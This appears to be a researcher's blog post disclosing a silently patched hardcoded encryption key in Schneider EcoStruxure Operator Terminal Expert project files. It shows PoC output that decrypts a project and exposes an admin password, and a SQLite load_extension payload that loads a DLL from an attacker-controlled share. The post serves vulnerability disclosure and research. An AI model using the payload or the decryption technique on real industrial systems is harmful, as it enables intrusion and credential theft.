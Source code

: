 ```yaml
---
layout: post
title: "Silent Schneider :: Revealing a Hidden Patch in EcoStruxure Operator Terminal Expert"
date: 2020-02-18 10:00:00 -0500
categories: blog
---
```


Last month, [Chris](https://twitter.com/mufinnnnnnn) and I competed at [Pwn2Own Miami 2020](https://www.thezdi.com/blog/2020/1/21/pwn2own-miami-2020-schedule-and-live-results) targeting several ICS applications. One of the applications that we targeted was the Schneider Electric EcoStruxure Operator Terminal Expert. This blog post talks about a silent patch that was introduced before the competition that subsequently killed several bugs in our exploit chain.
<!--more-->

TL;DR; *In this post, one of the bugs that was in our chain will be revealed coupled with an exploit that can help network penetration testers and red teams to pivot through a compromised network.*

## Overview

As [Cim](https://twitter.com/Cim_Stordal) hints out in his [blog post](https://medium.com/cognite/pwn2own-or-not2pwn-part-1-3f152c44563e), he could pack and unpack project files even though encryption was in play. This is because one of the bugs that was silently patched was a hardcoded cryptographic key that was being used to encrypt and decrypt the project file.

## Vulnerable Versions

Since this was a silent patch, let's be clear about what was vulnerable and what was not:

- `EcoStruxure Operator Terminal Expert V3.1.iso` - SHA1: `386312d68ba5e6a98df24258f2fbcfb2d8c8521b`:
   This version is vulnerable and released 20/9/2019.

- `Installation_File_v3.1_SP1.zip` - SHA1: `229c8a5f9cdb1d63c2f9998d561a50a30e829d7a`:
   This version is *not* vulnerable and released 20/12/2019.

## Impact

The project file (.vxdz) was a simple zip compressed file that could be extracted.

```
saturn:~ mr_me$ unzip -d sample sample.vxdz 
Archive:  sample.vxdz
 extracting: sample/Alarm.db         
 extracting: sample/AllDataLogging.dat  
 extracting: sample/contents.inf     
 extracting: sample/Converters.dat   
 extracting: sample/hierarchy.inf    
 extracting: sample/Language.db      
 extracting: sample/logging.dat      
 extracting: sample/Project.dat      
 extracting: sample/Recipe.Binding.dat  
 extracting: sample/Recipe.db        
 extracting: sample/RecipeControls.dat  
 extracting: sample/scripts.inf      
 extracting: sample/Security.db      
 extracting: sample/SystemKeypad.inf  
 extracting: sample/Target.Binding.dat  
 extracting: sample/Target.dat       
 extracting: sample/Validations.dat  
 extracting: sample/Variables.db     
 extracting: sample/Screens/panel1.binding.dat  
 extracting: sample/Screens/panel1.dat  
 extracting: sample/Scripts/panel0.binding.dat  
 extracting: sample/Scripts/panel0.dat  
 extracting: sample/[Content_Types].xml  
saturn:~ mr_me$ file sample/Security.db
sample/Security.db: data
saturn:~ mr_me$ strings sample/Security.db 
]3uU
B[]~
J|)o
JdnAq
ER$_0
pPQ$M
```

When attempting to determine the file types of the .db files and/or inspect their content, we can quickly see that the files are encrypted and compressed using deflate. Normally this wouldn't be an issue, but the Security.db file can contain sensitive information such as usernames and passwords.

```
saturn:~ mr_me$ ./poc.py 
(+) usage: ./poc.py <projectfile> [options <pack/unpack>]
(+) eg: ./poc.py sample.vxdz unpack
(+) eg: ./poc.py sample.vxdz pack
saturn:~ mr_me$ ./poc.py sample.vxdz unpack
(+) unpacking to sample
(+) unpacking: sample/Validations.dat
(+) unpacking: sample/Screens/panel1.binding.dat
(+) unpacking: sample/Recipe.Binding.dat
(+) unpacking: sample/RecipeControls.dat
(+) unpacking: sample/hierarchy.inf
(+) unpacking: sample/Alarm.db
(+) unpacking: sample/Recipe.db
(+) unpacking: sample/Project.dat
(+) unpacking: sample/Screens/panel1.dat
(+) unpacking: sample/Language.db
(+) unpacking: sample/scripts.inf
(+) unpacking: sample/Target.Binding.dat
(+) unpacking: sample/Target.dat
(+) unpacking: sample/AllDataLogging.dat
(+) unpacking: sample/logging.dat
(+) unpacking: sample/Scripts/panel0.binding.dat
(+) unpacking: sample/Scripts/panel0.dat
(+) unpacking: sample/Converters.dat
(+) unpacking: sample/Security.db
(+) unpacking: sample/SystemKeypad.inf
(+) unpacking: sample/Variables.db
(+) unpacking: sample/contents.inf
(+) unpacking: sample/[Content_Types].xml
(+) unpacked and decrypted: sample.vxdz
saturn:~ mr_me$ file sample/Security.db 
sample/Security.db: SQLite 3.x database, last written using SQLite version 3008010
saturn:~ mr_me$ strings sample/Security.db | grep admin
admins
admin09cfb7e71f097ebfed99e3ca3ba5d8b9e26162e19d03949566df9a12097d3bb2
adminthe master admin userThisIsASecretPassword!^L4G
saturn:~ mr_me$
```

Using the PoC we developed, it's possible to expose passwords inside of .vdxz files and in the example above, we can see that the password `ThisIsASecretPassword!` was exposed.

## Remote Code Execution

Details of SQLite fts3_tokenizer Untrusted Pointer Remote Code Execution Vulnerability ([CVE-2019-8602](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8602)) was released in Checkpoint's excellent blog [post](https://research.checkpoint.com/2019/select-code_execution-from-using-sqlite/).

Not only was the FTS3 extension enabled in the SQLite binary for EcoStruxure Operator Terminal Expert, but it was also using an outdated version: `3.8.10.2`. The checkpoint blog post had all the ingredients to trigger the bug using query hijacking and craft a working remote code execution exploit using just CVE-2019-8602. However, there was a simpler way.

As it turned out, the SQLite binary shipped also had the [`sqlite3_load_extension`](https://www.sqlite.org/c3ref/load_extension.html) interface enabled, meaning that it was simple to gain remote code execution using the following payload:

`select load_extension('\\attacker\calc.dll','DllMain');`

## Patch

The patch that Schneider released in SP1 was essentially to encrypt files using a per project password, instead of using a hardcoded encryption key.

![A per project password warning](/assets/images/silent-schneider/patch.png "A per project password warning") 

Additionally the SQLite binary that was shipped in SP1 had the FTS3 extension and `sqlite3_load_extension` interface disabled.

## Conclusion

Whilst no CVE was issued, having knowledge of the hardcoded key may aid in network pivoting as sensitive information can be revealed if .vdxz files are found within a network. An advisory and poc exploit can be found [here](/advisories/src-2020-0010/).